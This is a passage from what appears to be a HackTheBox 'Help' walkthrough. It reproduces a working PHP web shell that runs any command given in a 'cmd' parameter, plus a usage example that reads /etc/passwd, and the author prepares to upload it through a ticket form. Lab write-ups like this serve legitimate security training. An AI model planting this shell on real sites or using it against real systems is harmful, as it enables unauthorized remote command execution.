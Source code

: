 ![](/images/hackthebox/help/16.png)
#### The `php` file I'm going to upload is `simple-backdoor.php` which can be found in `/usr/share/webshells/php/simple-backdoor.php` in `kali` : 
```
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```
#### I submitted the ticket :